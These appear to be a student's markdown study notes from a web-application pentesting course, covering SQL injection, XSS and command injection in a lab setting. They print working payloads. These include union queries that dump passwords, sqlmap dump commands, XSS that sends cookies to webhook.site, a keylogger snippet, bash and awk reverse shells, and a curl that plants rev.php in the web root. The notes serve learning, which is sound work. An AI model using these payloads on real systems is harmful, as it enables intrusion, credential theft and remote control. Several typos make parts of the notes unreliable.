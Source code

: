 
- [ ] SQL- Union | Blind

## Union
https://portswigger.net/web-security/sql-injection/cheat-sheet

Single & Double quotes
```
jeremy' or 1=1# 
```

at the end will use the terminator # aka pound sign or we can even use
```
jeremy' or 1=1-- -
```

Version
```
version()
```


```
jeremy' union select null,null,table_name from information_schema.tables#
```

```
jeremy' union select null,null,column_name from information_schema.columns#
```

```
jeremy' union select null,null,password from injection0x01#
```


## Blind

As we put wrong password we can see that it generated error (i.e. change in content lenght) and also we viewed in render in response code

Than will try username = jeremy' or 1=1#
but will encode it using ctrl + u 
```
username=jeremy'+or+1%3d1%23%26password=password
```

Sqlmap
Copy the request and paste into a txt file -> req.txt

>[! bug] Look for Injection Points
- user agents and think out of the box

```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#; 
```

On a live target Mentor says to reduce the number of requests as will get limited request like 3 to 5.
```
sqlmap -r req.txt
```


```
substring((select version()), 1,1) = '7'#
```


```
sqlmap -r req2.txt --level=2 --dump -T injection0x02
```



<hr>



- [ ] XSS -DOM | Stored

Ctrl + Shift + C

```
alert(1)
```

is the most famous cross site scripting payload that you will come across.
Avoid using alter(1) cuz of the changes in Chrome and also how often it's filtered and detected.


Can use Netcat to listen locally or can use webhook.site
https://webhook.site/#!/2ba09e5e-3bbb-4103-8924-2cee42b01330


>[!warning]
In the real world when working as a pentest and exfilterating sensitive information, don't use public sites like webhook but can use EC2 instance or if vpn-ed into the network you can just use your local machine and listen.



>[! bug] Mentor recommend when u're testing for XSS either use print or prompt

### Reflected
LogKey: 
function logKey(event){console.log(event.key)}

document.addEventListner('keydown', logKey)


### Stored
Set up containers for our testing and this allows us to have multiple sessions open and test across different user accounts.

Mentor uses it for testing authorization issues:
to see if we can update Bob's account using Alice's session token.

But here will check if the CSS is indeed stored and not just showing up for the same user that post the payload.

Search Firefox containers
https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/


>[! important] HTML injection

Something that you might want to consider is that when testing for cross site scripting you can test for HTML injection first.

```
<h1>Test</h1>
```

```
<script>alert(document.cookie)</script>
```

```
<script>prompt(document.cookie)</script>
```



>[! warning]

Best Practice is the set the cookies to HTTP only, which is a flag that prevents JavaScript from accessing your cookie.


### DOM-based

This is DOM based cross site scripting Cuz what happens is, if we look at the network tab here we just reload the page quickly.

When we actually send information we can see that there is no request going and coming back to the server.

As this is entirely happening locally and it's vulnerability within the client this is DOM based CSS.

```
<script>prompt(1)</script>
```

```
<img src=x onerror="prompt(1)">
```
is a quite common payload when the document tries to load X it will throw an error and on the error we can execute some JS.


Re-direct the user to another website
Command : window.location.href
```
<img src=x onerror="window.location.href ='' ">
```


```
<script>var i = new Image; i.src="https://webhook.site/e0edf9f6-fb9d-4bda-9d7c-22fbf2a697c3/?"+document.cookie;</script>
```


<hr>

- [ ] Command Injection - Blind


Basic command chaining
```
; ls -la
```


Using logic operators
```
&& ls -la
```


Commenting out the rest of a command
```
; ls -la #
```


Using a pipe for command chaining
```
| ls -la
```


>[!warning] Let's see if we can pop a shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Will try the Bash TCP:
```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

but to know the bash path will run the command
```
which/bash
```

### Blind Injection

It look's like a this is blind command injection
So will use Weekhook.site and will use back tick `` to run the command
https://webhook.site/e0edf9f6-fb9d-4bda-9d7c-22fbf2a697c3?``

```
https://webhook.site/e0edf9f6-fb9d-4bda-9d7c-22fbf2a697c3?`whoami`
```


```
Command: https://tcm-sec.com && curl 192.168.17.133:8080/rev.php > /var/www/html/rev.php
```


>[!bug]  Don't forget to read the error msg carefully

```
10)^2))}';whoami;#
```

```
10)^2))}';which php;#
```

```
10)^2))}';/usr/bin/awk 'BEGIN {s = "/inet/tcp/0/192.168.17.133/4444"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null;#
```


- [ ] Insecure File Upload - Basic | Magic Bytes


- [ ] Authentication - Brute Force | MFA


- [ ] XXE


- [ ] IDOR


